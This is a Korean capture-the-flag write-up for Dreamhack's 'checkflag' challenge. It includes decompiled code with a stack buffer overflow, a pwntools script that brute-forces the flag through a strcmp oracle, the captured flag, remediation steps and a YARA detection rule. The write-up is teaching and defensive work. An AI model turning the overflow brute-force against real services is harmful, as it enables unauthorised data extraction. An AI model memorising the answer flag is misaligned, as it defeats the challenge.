


# [Dreamhack] Checkflag - Reversing/Pwnable

## 1. 문제 개요

* **문제 링크:** [Dreamhack - checkflag](https://dreamhack.io/wargame/challenges/97)

* **분야:** Reversing, Pwnable

* **목표:** 제공된 바이너리의 스택 버퍼 오버플로우(Stack Buffer Overflow) 취약점을 분석하고, `strcmp` 함수의 특성을 이용한 역방향 블라인드 브루트 포스(Blind Brute-force) 스크립트를 작성하여 원격 서버의 원본 플래그(FLAG) 추출.

## 2. 취약점 분석
제공된 ELF 바이너리 파일(`checkflag`)를 Ghidra로 디컴파일하여 분석한 결과, `main` 함수에서 64바이트 크기의 버퍼에 최대 200바이트의 사용자 입력을 받아 스택 버퍼 오버플로우(BOF)가 발생하는 구조 파악.

```c
// ... (중략) ...

  char acStack_e8 [64];
  char local_a8 [136];
  long local_20;

// ... (중략) ...

  flag_file = fopen("flag","r");
  if (flag_file != (FILE *)0x0) {
    fgets(local_a8,0x40,flag_file);
    fclose(flag_file);
    fputs("What\'s the flag? ",stdout);
    fflush(stdout);
    
    // [!] 취약점 발생 지점: 64바이트 버퍼에 200바이트 입력 허용
    sVar4 = read(0,acStack_e8,200);
    
// ... (중략) ...

    if ((long)(~uVar6 - 1) <= sVar4) {
      iVar2 = strcmp(acStack_e8,local_a8);
      if (iVar2 == 0) {
        fputs("Correct!\n",flag_file);

// ... (중략) ...
```

* **분석 결론:** 사용자 입력을 받는 `acStack_e8`과 서버의 플래그가 담기는 `local_a8`의 기드라 변수명 오프셋을 계산한 결과(`0xe8 - 0xa8 = 0x40`), 두 버퍼가 스택 메모리상에 정확히 64바이트 간격으로 연속 할당되어 있음을 확인. 입력값 길이 검증 부재로 인해 65바이트 이상 입력 시 `local_a8` 영역을 덮어쓸 수 있으며, `strcmp` 함수가 널 바이트(`\x00`)를 만날 때까지만 문자열을 비교하는 특성을 이용해 원본 플래그 훼손 없이 역방향 플래그 탐색 가능.

## 3. 공격 수행

1. Ghidra를 통해 `main` 함수의 로컬 변수 오프셋 및 취약한 `read` 함수 흐름 확인.



2. 플래그 전체 길이를 파악하기 위해 점진적으로 오버플로우 버퍼를 늘려가며 `Correct!` 응답이 반환되는 길이를 탐색하는 페이로드 구성.

3. 플래그의 끝자리(`}`)부터 시작하여, `local_a8` 영역을 덮어씌우는 패딩(`A`)의 길이를 1씩 줄여가며 한 글자씩 역순으로 참/거짓(Oracle)을 판별하는 블라인드 브루트 포스 스크립트 작성.

```python
# ... (중략) ...

for i in range(flag_len - 2, -1, -1):
    for c in range(0x20, 0x7f):
        guess_char = bytes([c])
        
        p = remote(HOST, PORT, level='error')
        
        overflow_A = b"A" * i
        test_payload = overflow_A + guess_char + found_flag
        payload = test_payload + b"\x00" * (64 - len(test_payload)) + overflow_A
        
        p.sendafter(b"What's the flag? ", payload)
        response = p.recvall(timeout=0.5)
        p.close()
        
        if b"Correct" in response:
            found_flag = guess_char + found_flag
            print(f"flag : {found_flag.decode()}")
            break

# ... (중략) ...
```

4. 작성한 파이썬 익스플로잇 스크립트 실행 후, 서버와의 반복적인 통신을 통해 역순으로 조립되는 플래그 문자열 추적.



5. 스크립트 실행 완료 및 최종 원본 플래그 획득.

## 4. 획득 결과
도출된 익스플로잇 스크립트를 통해 서버 메모리 변조 및 우회 성공 식별.

* **FLAG:** `DH{RHP1_ZPWR2G!}`

## 5. 대응 방안
프로그램 내에서 사용자 입력을 받을 때, 할당된 버퍼의 크기를 초과하여 덮어쓰지 못하도록 입력 함수 인자에 대한 시큐어 코딩 조치 적용.

* **입력 크기 엄격 제한:** `read(0, acStack_e8, 200)` 함수 호출 시, 세 번째 인자인 입력받을 최대 길이를 버퍼의 실제 할당 크기인 64바이트(널 바이트 포함 시 63바이트)로 제한. `read(0, acStack_e8, sizeof(acStack_e8) - 1);`로 수정하여 버퍼 오버플로우 원천 차단.

* **안전한 문자열 비교 함수 사용:** 메모리 침범이 발생하더라도 중요 데이터 유출을 막기 위해, 단순 `strcmp` 대신 비교 길이를 명시하는 `strncmp` 활용.

## 6. 블루팀 관점 요약
해당 프로그램은 취약점을 이용해 정답 유무(Oracle)를 판별하는 단일 실행 바이너리이므로, 네트워크 행위 로그와 정적/동적 파일 분석을 결합한 다각도 위협 탐지 방안 수립.

* **네트워크 비정상 연결 탐지 (NTA/IPS):** 익스플로잇 특성상 블라인드 브루트 포스 공격을 수행하기 위해 짧은 시간 내에 원격 서버(nc)로 수백~수천 번의 세션 연결 및 종료를 반복함. 방화벽 및 IPS 장비에서 동일 IP의 과도한 연결 요청(Connection Flooding) 임계치 탐지 및 차단 룰 적용.

* **YARA 탐지 룰 적용 (IoC):** 바이너리 정적 분석 과정에서 식별된 하드코딩 주요 문자열 및 특정 입력 폼을 활용하여, 유사한 형태의 취약한 파일 유입을 탐지하는 YARA 규칙 생성 요구.

```yara
rule Detect_checkflag {
    strings:
        // 하드코딩된 서버 출력 및 비교 문자열
        $s1 = "What's the flag?" ascii
        $s2 = "Correct!\n" ascii
        $s3 = "Failed!\n" ascii
        
        // 대상 파일의 타겟 문자열
        $target = "flag" ascii
        
    condition:
        // ELF 파일 헤더 및 대상 문자열 3개 이상 매칭 시 탐지
        uint32(0) == 0x464C457F and 3 of ($s*) and $target
}
```